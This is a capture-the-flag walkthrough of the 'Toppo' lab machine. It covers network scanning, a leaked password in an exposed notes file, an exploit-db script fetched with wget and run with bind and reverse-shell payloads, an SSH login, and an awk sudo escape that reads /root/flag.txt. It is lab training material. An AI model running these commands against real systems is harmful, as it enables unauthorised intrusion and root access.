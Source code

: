 ### Toppo Write-up


### Information Gathering

Step 0:

- Kali Linux IP:  192.168.56.102         ```ifconfig```
- Host Machine IP:   192.168.56.1 and 192.168.56.100 (host only)   ```ipconfig``` (It is a window machine)
- Target Machine IP:  192.168.56.101

Step 01: netdiscover -i eth1 -r 192.168.56.102/24

- ![](images/netdiscover.png)


### Scanning

Step 02:
- check whether host is alive
- ```nmap -sn 192.168.56.101``` (It is)
- ```nmap -sC -sV -A -p- 192.168.56.101 > nmap.txt```
- ```cat nmap.txt```

- ![](images/nmap.png)

Monologue: You can see there are few interesting ports are open; I will clean-up the output.

#### Cleaned Ouput
- 22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
- 80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
- 111/tcp   open  rpcbind 2-4 (RPC 100000)
  - rpcinfo:
     - program version   port/proto  service
     - 100000  2,3,4        111/tcp  rpcbind
     - 100000  2,3,4        111/udp  rpcbind
     - 100024  1          36544/udp  status
    - 100024  1          37431/tcp  status
- 37431/tcp open  status  1 (RPC \#100024)
#### and more
***

Step 03:
- As usual, I am going to open the browser and gonna check the ip with robots.txt and try all the ports I got here. If I get anything interesting I will enclose the screenshot here.
- I browse the 192.168.56.101  (default port 80).

- ![](images/p80.png)

- I didn't get anything on port 111 and 37431. (little skeptical in my mind that I am missing something here). Anyway, I will do a nikto with each of the port; and will report only when I find anything.

Step 04:
- ```nikto -h 192.168.56.101 > nikto80.txt```
- ```nikto -h 192.168.56.101 -p 111 > nikto80.txt```  (didn't work)
- ```nikto -h 192.168.56.101 -p 37431 > nikto80.txt``` (no webserver found)
- ```cat nikto80.txt```

- ![](images/nikto80.png)

Monologue: There is directory indexing
- 192.168.56.101/admin
- ![](images/admin.png)

- We found an interesting notes.txt file as well

- ![](images/notes_in_admin.png)


- ```Note to myself :
I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .```

- Password: 12345ted123  (fishing and soccer)
- username: ted or ted123 (my guess)

- 192.168.56.101/img
- ![](images/img.png)

Monologue: Although it looks harmless but I have seen stegnographed photo in the past. Therefore, I don't want to take chance. I am gonna download all and keep it for backup (further enumerate if I bump my head on the wall)

- [about-bg](/imgs/about-bg.jpg), [contact-bg](imgs/contact-bg.jpg), [home-bg](/imgs/home-bg.jpg), [post-bg](/imgs/post-bg.jpg), [post-sample-image.jpg](/imgs/post-sample-image.jpg)

- 192.168.56.101/mail
- ![](images/mail.png)

Monologue: Although there is a PHP file here but it doesn't do much. I will keep it a low priority.

- 192.168.56.101/manual/images/

- ![](images/manual-images.png)

Monologue: I am afraid it is just a rabbit hole ??!!

- 192.168.56.101/manual

Monologue: Running Apache and version is 2.4

- ![](images/manual.png)

- 192.168.56.101/icons/README  (Nothing important)

***
Note: so far I got only this information.

- Password: 12345ted123  (fishing and soccer)
- username: ted or ted123 (my guess)
***
Step 05:

Let's check google, exploit-db, nist, packet-storm, cve, anything .. but find a working exploit.

- [exploit-db](https://www.exploit-db.com/exploits/34900/)

### How to use that exploit ?

- ```wget https://www.exploit-db.com/download/34900.py```
- ```python exploit.py payload=bind rhost=192.168.56.101 rport=80```
- or

- ```python exploit.py payload=reverse rhost=192.168.56.101 lhost=192.168.56.102 lport=80```

Note: I tried both port 80 and port 111. (other port didn't give me anything)

- ![](images/exploited.png)

Monologue: However it left me keep banging my head on table because my privilege escalation skill is rather rusty..
Therefore, I thought why not I just keep a note of it and target some low hanging fruit?!!
***
- Remember we have (check line 68 and 69 provided you need to recall how we got this :) Sometime happens)
- Password: 12345ted123  (fishing and soccer)
- username: ted or ted123 (my guess)

Step 06:
- Let me do a SSH using above credentials
- ```ssh ted@192.168.56.101```
- ```password: 12345ted123```

- ![](images/ssh.png)

- Before I get drive into privilege escalation part, let me check in the sudoers' list

- ```cat /etc/sudoers```

- ![](images/sudo.png)

Monologue: To be honest, I am not sure why I need to check sudoers, but many a times while I play with Vulhub, it become like habbit to check the source code etc (in this case I totally forgot. Anyway.)

- Let me google on /usr/bin/awk (remember it has NOPASSWD)

- [check this github](https://github.com/xapax/security/blob/master/privilege_escalation_-_linux.md)
- ```awk 'BEGIN {system("/bin/bash")}'``` (this command is executing)
- So I tried
  - ```awk 'BEGIN {system("ls /root")}'```  (Yes, shows there is a flag, which is the main goal of this task)
  - ```awk 'BEGIN {system("cat /root/flag.txt")}'```

  - ![](images/flag.png)

Note: ```Congratulations ! there is your flag :0wnedlab{p4ssi0n_c0me_with_pract1ce}```

### Post Exploitation

- This is one the main important aspect once you get the access to the box. People usually hide some script in there to keep the persistent connection with the box and clean all the logs.

- However, we will not discuss much of it here. May be I will do a thorough research myself first and then discuss it with you :)

***

I am sure there are many ways to hack this machine and I am going to explore in the times to come. Rest of the weekend, I think it is better for me to polish my Linux Privilege Escalation skill to safe more time to pop the next machine :)

Happy Weekend to all!!  
